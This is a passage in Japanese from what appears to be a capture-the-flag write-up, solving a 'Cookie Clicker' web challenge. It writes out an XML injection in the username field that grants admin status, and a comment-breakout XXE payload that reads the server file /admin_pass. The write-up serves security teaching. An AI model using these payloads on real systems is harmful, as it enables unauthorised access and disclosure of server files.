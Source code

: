 `</username><is_admin>1</is_admin></data><data><username>a` を入力してみると、今度は admin 用のログインフォームが表示されました。

![Admin Login](../images/2020-04-13_jacc3.png)

パスワードを入力しろと言われても困ります。HTML を見ると気になるコメントがありました。

```html
<!-- If you are an admin and you forgot the password it's located on the server at /admin_pass-->
```

`/admin_pass` にパスワードがあるようです。`/admin_pass` にアクセスしても 404 が返ってくるだけなので、ファイルシステム上の `/admin_pass` のことを言っているのでしょう。

ここで思い出されるのは XXE (XML External Entity) を使った攻撃です。ただ、XML では DOCTYPE 宣言は先頭に配置する必要があるため、このままでは厳しいものがあります。

ユーザ名の他に操作できるパラメータがないか探していると、最初の入力フォームに気になるものがありました。

```html
        <form class="centered" action="login" method="post">
            <div style="text-align: center;"><h4>Just Another</h4><h1>Cookie Clicker</h1></div>
            <input class="good" name="username" placeholder="Username" />
            <input name="version" value="1.0.0" hidden>
            <button class="good" type="submit">Play</button>
        </form>
```

`version` という隠されたパラメータがあります。XML の最初の方には `<!-- API Version: 1.0.0 -->` というコメントがありますが、おそらくここに挿入されるのでしょう。

試しに `1.0.0` ではなく `-->poyo<!--` が送信されるようにしてみると、`Error: Start tag expected, '<' not found, line 1, column 22 (, line 1)` というエラーが表示されました。これなら DOCTYPE 宣言を仕込むことができそうです。

`<input name="version" value="1.0.0" hidden>` を `<textarea name="version"></textarea>` に変えて、ユーザ名に `&xxe;` を、この `textarea` に

```
-->
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///admin_pass">
]>
<!--
```

を入力します。
